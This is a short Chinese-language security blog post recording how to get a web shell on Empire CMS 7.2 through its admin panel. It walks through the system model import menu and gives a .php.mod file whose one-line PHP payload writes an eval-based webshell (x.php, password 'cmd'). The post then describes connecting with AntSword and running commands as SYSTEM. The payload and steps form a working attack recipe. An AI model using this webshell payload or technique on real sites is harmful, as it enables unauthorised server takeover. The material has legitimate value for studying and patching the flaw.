 ```yaml
---
layout: post
title: "帝国 cms 7.2 后台 GetShell" 
subtitle: "帝国cms 7.2 后台 GetShell"
date: 2019-07-10
author: ppbibo
category: security
---
```


[TOC]

# 帝国cms 7.2 后台 GetShell





**PS：**因为经常遇到帝国cms 7.2版本的cms ，所以这里记录下Getshell的方法



## 0x1 流程

系统设置——数据表与系统模型——管理数据表——管理系统模型——导入系统模型

![1](/static/img/diguo1.png)

![diguo2](/static/img/diguo2.png)

## 0x2 流程2

在本地新建1.php.mod文件,利用fopen函数写出一个x.php文件，文件内容为fopen函数第二个参数值，然后保存。

**[File Name]** 1.php.mod 

```bash
<?fputs(fopen("x.php","w"),"<?eval(\$_POST[cmd]);?>")?>
```

![diguo3](/static/img/diguo3.png)

导入成功之后访问 `http://abc.xxx.xxx.cn/e/admin/x.php` 密码为 cmd



## 0x3 中国蚁剑连接

![diguo4](/static/img/diguo4.png)

查看权限发现为 system 直接执行相关命令

![diguo5](/static/img/diguo5.png)



